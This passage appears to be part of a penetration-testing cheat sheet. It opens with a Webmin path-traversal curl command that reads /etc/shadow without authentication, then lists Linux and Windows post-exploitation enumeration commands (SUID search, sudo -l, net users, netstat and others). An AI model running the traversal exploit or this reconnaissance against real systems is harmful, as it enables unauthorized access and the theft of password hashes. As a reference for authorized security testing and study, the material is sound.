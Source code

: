       Test to see if webmin is running as root by grabbing /etc/shadow

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration

    -   List all SUID files
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux
        `cat /etc/issue`

    -   Determine more information about the environment
        `uname -a`

    -   List processes running
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use
        `sudo -l`

    -   List iptables rules
        `iptables --table nat --list
        iptables -vL -t filter
        iptables -vL -t nat
        iptables -vL -t mangle
        iptables -vL -t raw
        iptables -vL -t security`

-   Windows OS Enumeration


    -   net config Workstation

    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    -   hostname

    -   net users

    -   ipconfig /all

    -   route print

    -   arp -A

    -   netstat -ano

    -   netsh firewall show state

    -   netsh firewall show config

    -   schtasks /query /fo LIST /v

    -   tasklist /SVC

    -   net start

    -   DRIVERQUERY
